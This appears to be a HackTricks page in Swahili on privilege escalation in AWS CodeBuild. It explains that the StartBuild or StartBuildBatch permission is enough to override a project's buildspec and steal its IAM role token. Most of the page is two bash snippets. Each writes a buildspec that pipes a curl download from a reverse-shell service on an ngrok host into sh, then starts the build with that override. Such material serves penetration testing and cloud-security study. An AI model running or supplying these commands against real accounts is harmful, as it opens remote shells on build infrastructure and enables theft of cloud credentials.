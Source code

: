# AWS - Codebuild Privesc

{{#include ../../../banners/hacktricks-training.md}}

## codebuild

Pata maelezo zaidi katika:

{{#ref}}
../aws-services/aws-codebuild-enum.md
{{#endref}}

### `codebuild:StartBuild` | `codebuild:StartBuildBatch`

Ni moja ya ruhusa hizi pekee inatosha kuanzisha ujenzi na buildspec mpya na kuiba token ya jukumu la iam lililoteuliwa kwa mradi: 

{{#tabs }}
{{#tab name="StartBuild" }}
```bash
cat > /tmp/buildspec.yml <<EOF
version: 0.2

phases:
build:
commands:
- curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
EOF

aws codebuild start-build --project <project-name> --buildspec-override file:///tmp/buildspec.yml
```
{{#endtab }}

{{#tab name="StartBuildBatch" }}
```bash
cat > /tmp/buildspec.yml <<EOF
version: 0.2

batch:
fast-fail: false
build-list:
- identifier: build1
env:
variables:
BUILD_ID: build1
buildspec: |
version: 0.2
env:
shell: sh
phases:
build:
commands:
- curl https://reverse-shell.sh/6.tcp.eu.ngrok.io:18499 | sh
ignore-failure: true
EOF

aws codebuild start-build-batch --project <project-name> --buildspec-override file:///tmp/buildspec.yml
```
{{#endtab }}
{{#endtabs }}
